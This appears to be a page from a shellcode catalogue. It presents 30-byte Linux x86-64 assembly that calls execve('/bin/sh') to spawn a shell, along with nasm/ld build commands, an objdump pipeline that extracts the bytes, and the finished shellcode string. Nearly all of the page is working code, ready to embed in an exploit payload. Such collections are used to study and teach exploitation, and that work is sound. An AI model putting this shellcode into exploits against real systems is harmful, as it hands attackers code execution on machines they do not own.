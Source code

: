 ```yaml
---
layout: default
title: execve("/bin/sh", NULL, 0) - Spawn shell
permalink: /shellcode/asm-09.html
os: Linux
arch: Intel x86-64
length: 30
---
```


# {{ page.title }}

---
**OS:** {{ page.os }}

**Architecture:** {{ page.arch }}

**Length:** {{ page.length }} bytes

---

## Assembly

```nasm
section .text
global _start

_start:
	xor rdx, rdx			; null rdx (0)
	push rdx			; push null terminator
	mov rax, 0x68732f2f6e69622f	; move "/bin//sh" into rax
	push rax			; push "/bin//sh"
	mov rdi, rsp			; move pointer to "/bin//sh" into rdi

	push rdx			; push null terminator
	push rdi			; push pointer to "/bin//sh"
	mov rsi, rsp			; move pointer to array {"/bin//sh"} into rsi

	xor rax, rax			; null rax (0)
	mov al, 0x3b			; move execve syscall number into al (rax)
	syscall				; call execve
```

## Compilation and Linking

```bash
# Assemble
nasm -f elf64 -o code.o code.asm

# Link
ld -m elf_x86_64 -s -o code code.o

# Extract Shellcode
printf '\\x' && objdump -d code | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\n' | sed 's/.\{2\}/&\\x /g'| head -c-3 | tr -d ' ' && echo ' '
```

## Shellcode

```
\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05
```